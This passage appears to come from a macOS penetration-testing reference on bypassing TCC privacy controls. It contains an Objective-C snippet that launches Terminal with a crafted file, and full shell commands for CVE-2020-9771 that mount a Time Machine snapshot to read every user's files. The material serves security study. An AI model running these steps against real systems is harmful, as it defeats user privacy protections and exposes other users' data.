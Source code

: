 To execute this bypass, the application needs to have the necessary permissions to write the script file to the desired location, such as `/tmp`. Additionally, the application needs to have the necessary permissions to execute the `osascript` command.

Keep in mind that this bypass may not work if the user has explicitly denied the application's permissions or if the application is running in a sandboxed environment with restricted privileges.

It is important to note that bypassing the TCC framework may be considered a violation of user privacy and can potentially lead to security vulnerabilities. Therefore, it is recommended to follow proper security practices and obtain necessary permissions from the user through legitimate means.
```objectivec
// Write plist in /tmp/tcc.terminal
[...]
NSTask *task = [[NSTask alloc] init];
NSString * exploit_location = @"/tmp/tcc.terminal";
task.launchPath = @"/usr/bin/open";
task.arguments = @[@"-a", @"/System/Applications/Utilities/Terminal.app",
exploit_location]; task.standardOutput = pipe;
[task launch];
```
## By mounting

### CVE-2020-9771 - mount\_apfs TCC bypass and privilege escalation

**Any user** (even unprivileged ones) can create and mount a time machine snapshot an **access ALL the files** of that snapshot.\
The **only privileged** needed is for the application used (like `Terminal`) to have **Full Disk Access** (FDA) access (`kTCCServiceSystemPolicyAllfiles`) which need to be granted by an admin.

{% code overflow="wrap" %}
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
{% endcode %}
